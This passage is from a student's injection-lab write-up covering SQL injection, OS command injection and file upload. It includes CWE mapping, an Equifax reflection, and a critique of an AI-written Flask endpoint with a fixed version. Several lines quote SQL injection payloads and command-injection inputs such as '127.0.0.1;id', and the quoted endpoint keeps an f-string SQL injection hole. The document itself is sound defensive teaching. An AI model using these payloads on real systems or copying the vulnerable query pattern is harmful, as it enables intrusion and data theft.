  To maintain comprehensive defense against injection attacks, applications must architecturally separate control instructions from untrusted user input across all execution sinks. Database interactions must universally employ parameterized prepared statements, while operating system command execution should be replaced with native libraries or restricted to argument vectors without a shell (`shell=False`) alongside strict allow-list regex validation. For file uploads, systems must enforce server-side extension allow-lists, sanitize filenames to prevent path traversal, and store files outside public web roots with execution permissions stripped.





## Part 4 — Reflection

1. **CWE/OWASP mapping:** map each of your four exploits to its CWE (89/78/434) and to OWASP 2025 **A05 Injection**.
   - **Task 1 (SQLi Auth Bypass):** Mapped to **CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')** under **OWASP 2025 A05: Injection**.
   - **Task 2 (UNION SQLi Credential Dump):** Mapped to **CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')** under **OWASP 2025 A05: Injection**.
   - **Task 3 (OS Command Injection):** Mapped to **CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')** under **OWASP 2025 A05: Injection**.
   - **Task 4 (Unrestricted File Upload):** Mapped to **CWE-434: Unrestricted Upload of File with Dangerous Type** under **OWASP 2025 A05: Injection** (and A01/A04 across broader vulnerability taxonomies).

2. **Real breach:** the **2017 Equifax breach** exposed ~147M people after attackers exploited a known input-handling flaw (Apache Struts CVE-2017-5638). In 3–4 sentences, connect that failure to the lessons in this lab (untrusted input reaching a powerful interpreter; the cost of an unpatched/unvalidated input path).
   - In the 2017 Equifax breach, attackers leveraged a vulnerability in the Apache Struts framework (CVE-2017-5638) where unvalidated, attacker-controlled data supplied in an HTTP `Content-Type` header was passed directly into an OGNL (Object-Graph Navigation Language) expression parser. Because the parser treated the untrusted header string as executable code rather than passive metadata, attackers gained arbitrary remote command execution on Equifax's internal servers, leading to the theft of personal and financial records belonging to 147 million individuals. This breach mirrors the exact vulnerability pattern demonstrated in **Task 3 (OS Command Injection)**, where user data reached `subprocess.run(..., shell=True)` without sanitization, allowing control metacharacters to hijack the interpreter. It reinforces the fundamental security principle that any input path connecting untrusted user data to an execution engine without rigorous input validation, safe APIs, and strict boundary controls can lead to catastrophic compromise.

3. **Best mitigation:** of parameterized queries, allow-list validation, least privilege, and avoiding `shell=True`, which single control would have prevented the most damage in this lab, and why?
   - Across the diverse attack surfaces evaluated in this lab, **parameterized queries** and **avoiding `shell=True` (using argument vectors)** represent the most structurally sound defenses for their respective interpreters because they guarantee by design that data cannot alter code structure. However, when evaluating which single control provides the broadest protection across all four tasks, **allow-list validation** protects the most damage because strict allow-listing applied at the input boundary rejects SQL metacharacters (`'`, `--`, `UNION`), command separators (`;`, `|`, `&&`, `$()`), and unauthorized file extensions (`.py`, `.sh`) before any data ever reaches the database, OS shell, or filesystem sinks. While defense-in-depth is always mandatory, allow-listing operates as a universal first line of defense that neutralizes unexpected parser behavior across every interpreter.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the same image as the evidence**.
- **Personalized flag (if this lab issues one):** N/A — no personalized flag issued
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. **What did you do, and why did the vulnerability work?**
     During this lab, we demonstrated attacks against three distinct interpreters: SQLite, the Linux shell (`/bin/sh`), and the local filesystem. In Tasks 1 and 2, SQL injection succeeded because user inputs were formatted directly into raw SQL strings using Python string formatting (`%s`), allowing single quotes to break out of data literals and comment syntax (`--`) or `UNION` clauses to manipulate query logic. In Task 3, command injection succeeded because `subprocess.run` was executed with `shell=True`, causing the underlying shell to evaluate semicolons as command separators and execute our secondary commands (`id` and `cat /flag.txt`) with root privileges. In Task 4, unrestricted file upload worked because `/upload` saved incoming files directly to disk without checking filenames or validating extensions.
  2. **Why does your fix actually stop it — and what could still break it?**
     The fixes in `solution_app.py` stop the exploits by changing the architecture of input handling: parameterizing SQL queries ensures the database pre-compiles query structure and treats user values as passive data literals; passing argument arrays with `shell=False` combined with regex allow-lists prevents the operating system from executing shell metacharacters; and sanitizing filenames with `secure_filename()` while checking extensions against `ALLOWED_EXT` prevents uploading executable scripts. What could still break it is if developers introduce new routes that construct SQL statements with dynamic string formatting, if regex allow-lists are written with overly permissive character sets, or if uploaded files are moved to a directory configured with server-side script execution where alternative parser vulnerabilities exist.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.

**Prompt sent to AI:** *"Write a Python Flask endpoint `/search` that queries an SQLite database for users by name based on a query parameter `q`."*

**Full AI answer:**
```python
import sqlite3
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route("/search")
def search():
    q = request.args.get("q", "")
    conn = sqlite3.connect("database.db")
    cursor = conn.cursor()
    query = f"SELECT id, username, email FROM users WHERE username LIKE '%{q}%'"
    cursor.execute(query)
    results = cursor.fetchall()
    conn.close()
    return jsonify(results)
```

2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
   1. **Critical SQL Injection via f-string formatting (CWE-89):** Line 11 (`query = f"SELECT id, username, email FROM users WHERE username LIKE '%{q}%'"`) directly interpolates unvalidated user input into the SQL query string. An attacker can supply `' UNION SELECT id, username, password FROM users--` or `' OR '1'='1'--` to dump the entire database or bypass authorization.
   2. **Database connection resource leak on exception:** `conn.close()` is placed on line 14 after `cursor.execute(query)`. If an attacker submits invalid SQL syntax that triggers an exception during execution, `conn.close()` is never reached, resulting in unclosed database connections and denial-of-service via resource exhaustion.
   3. **Missing input length and character validation:** The code does not restrict the length or format of `q`. A client can submit multi-megabyte payloads, causing high CPU and memory consumption.
   4. **Lack of query result pagination (`LIMIT`):** The query executes an unconstrained `LIKE` search without a `LIMIT` clause, enabling attackers to exhaust server memory by querying common characters (like `%a%`) across large tables.
   5. **Insecure connection management:** Opening and closing SQLite connections manually inside every request without connection pooling or Flask context management (`g` and `@app.teardown_appcontext`) degrades application performance under concurrent load.

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

```python
import sqlite3
from flask import Flask, request, jsonify, g

app = Flask(__name__)
DATABASE = "database.db"

def get_db():
    if "db" not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

@app.teardown_appcontext
def close_db(exception):
    db = g.pop("db", None)
    if db is not None:
        db.close()

@app.route("/search")
def search():
    term = request.args.get("q", "").strip()
    if len(term) > 50:
        return jsonify(error="Search term exceeds maximum length of 50 characters"), 400

    # FIX CWE-89: Parameterized query binds the LIKE wildcard pattern as pure data
    db = get_db()
    cursor = db.execute(
        "SELECT id, username FROM users WHERE username LIKE ? LIMIT 20",
        ("%" + term + "%",)
    )
    rows = cursor.fetchall()
    return jsonify([{"id": row["id"], "username": row["username"]} for row in rows])
```

*Explanation:* The AI's generated code was completely vulnerable because it concatenated user input directly into SQL using dynamic f-strings, lacked exception-safe connection management, and omitted result limits. The verified version uses parameterized prepared statements with `?` placeholders so input cannot alter the SQL parse tree, binds connections to Flask's application teardown context, restricts input length, and caps search results to 20 rows.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.
The vulnerable application constructs database commands and operating system instructions by directly pasting raw user input into command text strings. Because the system cannot distinguish between the developer's original instructions and the user's data, any special characters entered by an attacker (such as quotes, comment dashes, or semicolons) are misinterpreted as new code commands. This allows an attacker to manipulate database queries to steal passwords, hijack the operating system to execute administrative shell commands, or upload malicious executable scripts directly to server storage.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

- **Final Prompt:**
  *"Write a secure Python Flask endpoint `/ping` that accepts a `host` parameter and tests reachability safely. The function must strictly validate `host` against an allow-list regular expression `^[A-Za-z0-9_.-]+$` returning HTTP 400 on failure, must execute `ping -c 1 <host>` without a shell using an argument array with `shell=False`, and must safely capture and return standard output and error inside HTML `<pre>` tags. Provide only the Python implementation code."*

- **Verified Result:**
  The generated code was verified against our test suite in `solution_app.py`. When tested with command injection payloads `127.0.0.1;id` and `$(whoami)`, the endpoint immediately returned `HTTP/1.1 400 BAD REQUEST` with `invalid host`, and legitimate host arguments were executed without shell interpretation, proving that OS command injection (CWE-78) is completely mitigated.

